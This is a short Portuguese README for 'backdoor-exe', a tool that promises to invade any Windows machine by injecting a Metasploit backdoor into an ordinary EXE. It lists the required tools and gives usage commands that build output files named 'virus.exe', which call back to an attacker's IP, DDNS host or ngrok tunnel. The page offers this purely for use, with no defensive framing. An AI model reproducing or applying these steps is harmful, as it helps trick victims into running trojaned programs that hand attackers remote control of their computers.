 # backdoor-exe
Invada qualquer Windows usando um EXE modificado!

Necessário o Perl, MSF(console e venom), um EXE(qualquer) e porta aberta, é claro..

Para adcionar o Backdoor ao EXE use por exemplo:

root@ZBox:~/Desktop# ./backdoor-exe

Usage: backdoor-exe <exe> <ip/ddns> <port> <out>
Usage: backdoor-exe -n <exe> <ngrok_host> <ngrok_port> <fwdport> <out>

IP:

./backdoor-exe test.exe 192.168.1.143 9090 virus.exe

Host/DDNS:

./backdoor-exe test.exe fuckthisn0ip.ddns.net 9090 virus.exe

Ngrok:

./backdoor-exe -n test.exe xxxx.ngok.io xxxx 9090 virus.exe

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
